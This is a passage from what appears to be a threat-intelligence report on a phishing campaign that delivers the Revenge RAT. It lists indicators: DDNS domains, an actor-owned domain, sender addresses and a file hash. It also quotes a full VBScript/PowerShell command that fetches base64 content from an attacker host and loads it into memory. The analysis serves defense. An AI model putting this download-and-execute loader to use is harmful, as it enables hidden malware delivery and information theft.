 Figure 6 Second-stage VB script
This second-stage VBScript code ends up loading a final payload in memory via PowerShell reflection, fetching the binary content from a file with a GIF extension:
"CreateObject(\"Wscript.Shell\").run  \"cmd.exe /c powershell -ExecutionPolicy Bypass -windowstyle hidden -noexit -command [Reflection.Assembly]::Load([Convert]::FromBase64String((New-Object Net.WebClient).DownloadString('http://achoteis.com[.]br/images/64.gif'))).EntryPoint.Invoke($null,$null)\"\r\n"
The final payload delivered in this case is Revenge Remote Access Trojan (RAT), a commodity tool which can be used to facilitate information theft.
Infrastructure analysis
At the infrastructure level, the attacker makes use of dynamic DNS (DDNS) services such as DuckDNS, WinCo, or No-IP, many of which offer free accounts lowering the investment required for attacker infrastructure. Some examples of the domains in use are detailed in Table 2.



Dynamic DNS Domains


systenfailued.ddns[.]com[.]br


office365update[.]duckdns[.]org


cdtoriginal[.]ddns[.]net



Table 2 Examples of domains associated with this campaign using DDNS providers
In addition to using free services, paste sites, and compromised sites, we have also identified at least one domain that appears to be actor-owned. The domain “fejalconstrucoes[.]com[.]br” has been used to host payloads, as well as send emails to potential victims. Figure 7 DNS WHOIS record shows details on the domain, which has been registered using the UOL service in Brazil.

Figure 7 DNS WHOIS record
Emails with malicious attachments belonging to this campaign have been found with the following characteristics:
Domain: fejalconstrucoes[.]com[.]br
Email Senders: mmcorrea@fejalconstrucoes.com.br, marcos@fejalconstrucoes.com.br
Attachment names: Contrato Anual FEJAL Construçoes.ppa
As mentioned before, an interesting detail on domains and paths used by the attacker is the use of the recurring acronym “CDT”, as for example:
hxxp://bit[.]ly/cdtqueda
hxxp://cdtoriginal.ddns[.]net
Identifying the main business driver: “CapturaTela”
During our investigation, one open directory identified allowed us to find several payloads used by the attacker. Table 3 displays the set of payloads and documents found. The acronym “CDT” keeps appearing even in file names used.



Filename
SHA256


CDT.hta
4485a8f339171ca86f7e38b912f0f28072ffe04404d5062af3a60f322566f870

